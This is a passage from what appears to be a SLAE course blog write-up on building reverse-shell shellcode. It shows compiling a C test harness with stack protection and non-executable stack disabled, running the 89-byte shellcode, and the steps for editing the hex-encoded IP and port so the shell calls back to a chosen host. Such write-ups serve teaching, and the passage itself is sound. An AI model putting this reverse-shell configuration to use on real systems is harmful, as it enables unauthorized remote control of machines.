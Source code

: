 
}
{% endhighlight %}

Compile the shellcode.c and run it:
{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment2$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
kali@kali:~/Desktop/SLAE-Assignments/assignment2$ ./shellcode 
Shellcode Length:  89
{% endhighlight %}

![reverse-shellcode](https://bohansec.com/assets/reverse-shellcode.png "reverse-shellcode")

![confirm3](https://bohansec.com/assets/confirm3.png "confirm3")

### Step8 - Configure the IP and port number

Edit the "\xc0\xa8\xc8\x88" to your desired IP. Convert the IP address into hex at [here](https://www.browserling.com/tools/ip-to-hex){:target="_blank"}. Edit the "\x11\x5c" to your desired port number. Convert the port number into hex at [here](https://www.rapidtables.com/convert/number/decimal-to-hex.html){:target="_blank"}.

You can find all the above code at [here](https://github.com/allan9595/SLAE-Assignments/tree/master/assignment2){:target="_blank"}.

Thanks for reading :)

	

